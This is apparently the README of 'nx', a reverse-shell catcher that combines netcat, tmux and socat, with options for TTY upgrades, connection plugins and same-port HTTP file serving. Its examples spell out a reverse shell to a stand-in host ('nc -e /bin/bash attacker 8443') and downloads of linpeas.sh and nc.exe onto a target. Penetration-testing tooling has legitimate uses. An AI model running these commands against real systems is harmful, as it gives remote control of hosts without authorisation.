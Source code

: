 # nx

[n]etcat + tmu[x] - listen on a port and forward the stream to a tmux session

## Prerequisites

- tmux - required for session/window management
- socat - required for TTY handling and keystroke forwarding

## Usage

1. start a listener
```sh
nx -vp 9090
```

2. from a different machine, initiate the reverse shell
3. nx catches the connection then starts a tmux window in the `nx` session, and starts the shell there

```
Usage:
  nx [OPTIONS]

Application Options:
      --auto       Attempt to auto-upgrade to a tty (deprecated: use --exec auto)
      --exec=      Execute plugin script on connection
  -i, --host=      Interface address on which to bind (default: 0.0.0.0)
  -p, --port=      Port on which to bind (default: 8443)
  -t, --target=    Tmux session name (default: nx)
  -v, --verbose    Debug logging
      --sleep=     adjust if --auto is failing (default: 500ms)
  -d, --serve-dir= Directory to serve files from over HTTP
```

## Features

- **Plugin system**: Use `--exec <plugin>` to run custom scripts on connection
- **Auto-upgrade to TTY**: Use `--exec auto` (or deprecated `--auto` flag) to automatically upgrade your shell to a TTY
- **Protocol multiplexing**: Serve files over HTTP on the same port as shell connections using `--serve-dir`
- **XDG runtime paths**: Automatically uses XDG runtime directory for socket location
- **Signal handling**: Properly handles signals and performs cleanup

## Plugin System

nx supports a plugin system for executing custom commands when a new connection is established. Plugins are shell scripts stored in `~/.config/nx/plugins/`.

### Creating Plugins

1. Create a shell script in `~/.config/nx/plugins/<name>.sh`
2. Make it executable: `chmod +x ~/.config/nx/plugins/<name>.sh`
3. Use the plugin: `nx --exec <name>`

### Plugin Format

Plugins are simple shell scripts with these features:
- Lines starting with `#` are ignored (comments)
- Empty lines are ignored
- All other lines are executed as tmux commands in the reverse shell

### Example Plugin

```bash
#!/bin/bash
# Custom upgrade script
echo "Setting up environment..."
export PATH=/usr/local/bin:$PATH
whoami
```

### Built-in Plugins

- **auto**: TTY upgrade script

## Protocol Multiplexing

nx can serve files over HTTP on the same port as shell connections. This allows you to host files and catch shells on a single port.

### HTTP File Serving

Enable file serving by specifying a directory with the `-d` or `--serve-dir` flag:

```bash
# Start nx with file serving enabled
nx -p 8443 -d ./files -v

# Shell connections still work normally
nc -e /bin/bash attacker 8443

# From target machine - download files
wget http://attacker:8443/linpeas.sh

```


### Mixed Operation Example

```bash
# Terminal 1: Start nx with both features
nx -p 8443 -d ./tools -v

# Terminal 2: Download a tool from target
curl http://attacker:8443/nc.exe -o nc.exe

# Terminal 3: Catch reverse shell
nc -e /bin/bash attacker 8443
```

### HTTP Response Codes

- `200 OK`: File served successfully
- `404 Not Found`: File doesn't exist or is a directory
- `405 Method Not Allowed`: Non-GET HTTP methods
- `500 Internal Server Error`: Server-side errors

## How?

unix domain sockets mannn

## ToDo
- [x] ~~maybe a plugin system for sending commands on connection~~ ✅ **DONE**: Implemented plugin system with `--exec` flag
- [x] ~~some mechanism to auto-upgrade the shell to a TTY via tmux-send-keys or sourcing a script that just adds the keybinds, so that it's up to the user to fire off the upgrade~~ ✅ **DONE**: Auto-upgrade via `--exec auto`
- [x] ~~alternatively, multiplex the connection to allow `curl | sh` from the same port~~ ✅ **DONE**: Protocol multiplexing with `--serve-dir`
- [x] ~~multiplexing listener~~ ✅ **DONE**: HTTP/shell protocol detection on same port
- [ ] handle stdio with the socket directly with `nx`, eliminating the need for `socat`
- [ ] facilitate installing plugins dir to xdg
- [ ] super simple chisel-light functionality
    - [ ] maybe cmux + ssh? https://github.com/gliderlabs/ssh/blob/master/_examples/ssh-remoteforward/portforward.go
